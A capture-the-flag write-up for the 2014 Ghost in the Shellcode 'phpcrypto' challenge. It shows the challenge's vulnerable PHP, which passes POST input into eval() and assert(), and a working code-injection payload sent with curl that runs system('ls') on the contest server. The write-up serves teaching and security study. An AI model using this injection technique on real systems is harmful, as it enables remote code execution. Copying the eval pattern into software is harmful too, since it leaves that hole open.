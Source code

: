 # Ghost in the Shellcode 2014: phpcrypto

**Category:** Recon
**Points:** 100
**Description:**

> GitS Presents [PHPCrypto 0.000001](http://phpcrypto.2014.ghostintheshellcode.com/)

## Write-up

The HTML source code of the linked page contains the following:

```js
function encrypt()
{
  key = $("#key")[0].value;
  plaintexthex = toHex($("#plaintext")[0].value);
  function success(data) {$("#ciphertext")[0].value = $.parseJSON(data).returnValue;}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":plaintexthex}, success );
}

function decrypt()
{
  key = $("#key")[0].value;
  ciphertext = $("#ciphertext")[0].value;
  function success(data) {$("#plaintext")[0].value = toAscii($.parseJSON(data).returnValue);}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":ciphertext}, success );
}
```

So, for encoding and decoding, a POST request is made to `/crypto.php` with the name of the function (`customCrypto`), the entered key, and the hexadecimal representation of the input text (for encoding) or the ciphertext (for decoding).

There’s also this comment:

```js
/*
TODO: add support for "help" and "dump" functions
*/
```

When using the `dump` function, the server returns an HTML document containing the syntax-highlighted source code of the PHP script:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=dump' > source.html
```

In some cases the `customCrypto` function ends up in a code path where [`assert()`](http://php.net/assert) is executed:

```php
assert("\$message = \"ERROR! xorKey is: \".strlen(\$xorKey).\" bytes long and the plaintext is: \".strlen($plaintext).\" bytes long.\";");
```

`assert` is like `eval`, except it terminates script execution if the result is `false`. To get there, we need to pass the string `'true'` as the value for the third argument (`$DEBUG`).

That is possible because of this code:

```php
$params = $_POST;
unset($params['function']);

$param_string='';
foreach($params as $key=>$param)
{
    $param = preg_replace('/[^A-Za-z0-9]/','',$param);
    $param_string.=(($param_string)?',':'')."'".$param."'";
}

if (isset($DEBUG) && $DEBUG == "true") { error_log($_POST['function']."($param_string);"); }
eval("echo ".$_POST['function']."($param_string);");
```

All we need to do is use `DEBUG=true` as the third key/value pair in the POST data, not counting the `function` parameter. This enables remote code execution:

```bash
$ echo -n '").system("ls");//' | xxd -p # will be used as the value for `plaintexthex`
22292e73797374656d28226c7322293b2f2f

$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=customCrypto&key=a&plaintexthex=22292e73797374656d28226c7322293b2f2f&DEBUG=true'
crypto.php
index.php
jquery-1.8.0.min.js
key
{"errorMsg":"The key is: ; and the plaintext is: key","returnValue":"1912154842484f5e56131957481912001414"}
```

Aha! There’s a file named `key`. Let’s see what it says:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/key
ThisWasAStupidTestKeyThatBecameARealBoy
```

## Other write-ups

* <http://tasteless.se/2014/01/gits-2014-phpcrypto-recon-100/>
